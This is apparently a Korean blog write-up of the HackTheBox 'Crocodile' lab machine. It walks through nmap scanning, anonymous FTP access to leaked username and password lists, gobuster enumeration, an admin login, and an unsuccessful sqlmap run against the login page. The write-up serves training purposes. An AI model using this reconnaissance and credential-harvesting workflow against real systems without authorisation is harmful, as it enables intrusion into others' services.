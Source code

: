 ```yaml
---
title: HTB Crocodile Write-up
categories: [HackTheBox, StartingPoint]
tags: [HackTheBox]
image:
    path: /assets/image_post/20240207111948.png
---
```


이번 문제 역시 nmap으로 먼저 스캔을 해보자. 스캔할때는 기본적으로 `-sC`와 `-sV`를 붙이는게 좋을 것 같다.
``` bash
 read-min 🎉   ~  nmap -sV -sC 10.129.1.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 18:01 KST
Nmap scan report for 10.129.1.15
Host is up (0.27s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
21/tcp   open     ftp            vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.49
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
902/tcp  filtered iss-realsecure
1061/tcp filtered kiosk
1071/tcp filtered bsquare-voip
1130/tcp filtered casp
1185/tcp filtered catchpole
7741/tcp filtered scriptview
8701/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.08 seconds
```
위와 같이 결과를 얻었는데 흥미로운 부분이 벌써 보인다. ftp login 허용과 관련된 부분이 보인다.
``` bash
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

```

ftp 접속 후 존재하는 파일을 다운로드하였다.
``` bash
 read-min 🎉   ~  ftp 10.129.1.15

Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:km): anonymous
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

다운로드한 파일의 내용은 각각 아래와 같다.
``` bash
 read-min 🎉   ~  cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
 read-min 🎉   ~  cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

계정에 대한 정보는 획득한 것 같은데, 어디에 사용할지 알 수 없다. 우선 80 port에 http 서비스가 존재하여 gobuster로 스캔하였다.
``` bash
# gobuster dir -u http://10.129.1.15 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.1.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.129.1.15/assets/]
/js                   (Status: 301) [Size: 307] [--> http://10.129.1.15/js/]
/css                  (Status: 301) [Size: 308] [--> http://10.129.1.15/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.1.15/fonts/]
/.htaccess            (Status: 403) [Size: 276]
/config.php           (Status: 200) [Size: 0]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.1.15/dashboard/]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswds           (Status: 403) [Size: 276]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
```

기본적으로 아래와 같이 별도의 로그인 화면은 존재하지 않지만, 스캔 결과를 보면 `config.php`, `login.php` 등이 있는 것을 알 수 있다.
![](../assets/image_post/20240204181658.png)

config.php는 접근해도 별 다른 정보가 없는 페이지이다. 대신 login.php 접근 시 아래와 같이 로그인 폼이 존재하는 것을 확인할 수 있다.
![](../assets/image_post/20240204181904.png)

이전에 획득한 admin 계정의 암호로 로그인 시 성공적으로 flag 획득이 가능하다.
![](../assets/image_post/20240204182420.png)

문제 풀이 완료 후 로그인 페이지에 대해 sql injection이 가능한지 확인해보고 싶었다. 그래서 이전에 사용한적 있는 sqlmap을 이용해보았다. 스캔 시간이 꽤 오래 걸렸지만, 별도로 나온 결과는 없다.
``` bash
sqlmap -u "http://10.129.44.43/login.php" --batch --risk=3 --level=5 --dbs
```

![](../assets/image_post/20240204182452.png)